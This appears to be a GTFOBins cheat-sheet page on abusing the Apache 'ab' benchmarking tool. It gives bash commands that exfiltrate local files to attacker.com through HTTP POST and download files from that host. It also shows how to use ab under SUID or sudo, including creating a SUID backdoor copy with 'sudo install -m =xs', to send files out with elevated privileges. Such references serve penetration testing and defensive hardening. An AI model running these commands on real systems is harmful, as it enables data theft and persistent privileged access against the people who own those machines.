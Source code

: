 ```yaml
---
title: "ab"
author: GTFObins
categories: Tips
series: GTFObins
tags: ["file upload","file download",suid,sudo]
toc: false
---
```


# File upload

It can exfiltrate files on the network.

Upload local file via HTTP POST request.

```bash
URL=http://attacker.com/
LFILE=file_to_send
ab -p $LFILE $URL
```

# File download

It can download remote files.

Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.

```bash
URL=http://attacker.com/file_to_download
ab -v2 $URL
```

# SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Upload local file via HTTP POST request.

```bash
sudo install -m =xs $(which ab) .

URL=http://attacker.com/
LFILE=file_to_send
./ab -p $LFILE $URL
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Upload local file via HTTP POST request.

```bash
URL=http://attacker.com/
LFILE=file_to_send
sudo ab -p $LFILE $URL
```
